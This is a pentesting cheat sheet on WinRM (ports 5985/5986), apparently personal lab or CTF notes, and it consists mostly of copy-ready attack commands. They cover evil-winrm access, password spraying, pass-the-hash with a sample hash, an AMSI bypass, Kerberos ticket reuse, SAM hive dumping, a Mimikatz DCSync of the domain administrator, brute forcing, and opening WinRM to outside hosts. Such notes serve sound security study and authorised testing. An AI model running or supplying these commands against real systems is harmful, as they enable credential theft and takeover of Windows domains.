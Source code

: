 # 5985, 5986 - WinRM

## evil-winrm

{% hint style="info" %}
use **menu** to list commands, a useful one is **services**
{% endhint %}

### IPv6

{% code overflow="wrap" fullWidth="true" %}
```bash
nxc winrm dead:beef::1001 -u 'Administrator' -p 'EverybodyWantsToWorkAtP.O.O.' --local-auth

# EVIL-WINRM 
To use IPv6, the address must be added to /etc/hosts. Just put the already set name of the host after -i argument instead of an IP address.
tail -1 /etc/hosts
dead:test::1000 myhost
evil-winrm -i myhost -u $USER -p $PASS
```
{% endcode %}

### Bypass AMSI

```
menu
Bypass-4MSI
```

## Check valid credentials

```bash
crackmapexec winrm $IP -u $USERS_FILE -p $PASS --continue-on-success
```

## Pass the Hash

```bash
evil-winrm -u administrator -H 5b38382017f8c0ac215895d5f9aacac4 -i 172.16.1.5
```

[https://juggernaut-sec.com/pass-the-hash-attacks/](https://juggernaut-sec.com/pass-the-hash-attacks/)

## Kerberos auth

```sh
https://github.com/Hackplayers/evil-winrm#kerberos
sudo nvim /etc/krb5.conf
- Modify [libdefaults] 
- Also add the realm to [realms] both kdc and admin_server
- Just to be sure, add it to [domain-realms] as well

# Instead of editing the krb5.conf file manually, NetExec can generate it for us
nxc smb dc01.domain.com -k -u $USER -p $PASS --generate-krb5-file domain.krb5
sudo cp /etc/krb5.conf /etc/krb5.conf~
sudo cp domain.krb5 /etc/krb5.conf
# Obtain TGT and then use it on evil-winrm
KRB5CCNAME=user.ccache evil-winrm -i dc01.domain.com -r domain.com
```

## Unrestricted scripts / commands execution

{% code overflow="wrap" %}
```powershell
PowerUp → use downloadString to make it work appart from unrestricted execution policy
Set-ExecutionPolicy Unrestricted -Force
# To indicate our paths where we have PS scripts / exe binaries
-s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
-e, --executables EXES_PATH      C# executables local path
# Then on evil-winrm we type menu and since the app knows where PS/exes are we can execute them more easily
```
{% endcode %}

## Execute cmd commands on PS

```
cmd.exe /c reg save hklm\sam sam
PS> "binary.exe -p -l 455" | cmd
```

## Enable WinRM outside (AD/FW)

You can enable winrm but you will also need to allow it on the firewall and then also change the trusted hosts to be \* to allow IP addresses external of the network to connect.

## Mimikatz

```powershell
PS> .\mimikatz 'lsadump::dcsync /domain:.LOCAL /user:administrator' exit
```

## 5986 - WinRM (SSL)

```bash
# log in using evil-winrm (note port is 5986) and providing the public key (in this case the certificate key) and the private key
└─$ evil-winrm -i 10.10.10.10 -c pub-key.pem -k priv-key.pem -S -r domain.com -P 5986

# Authenticate against port 5986 (SSL)
evil-winrm -i 10.10.10.10 -u Administrator -p '$PASS' -S
```

## Bruteforce

```bash
https://github.com/yok4i/winrm-brute
# (check first if we have tried some creds with cme)
```

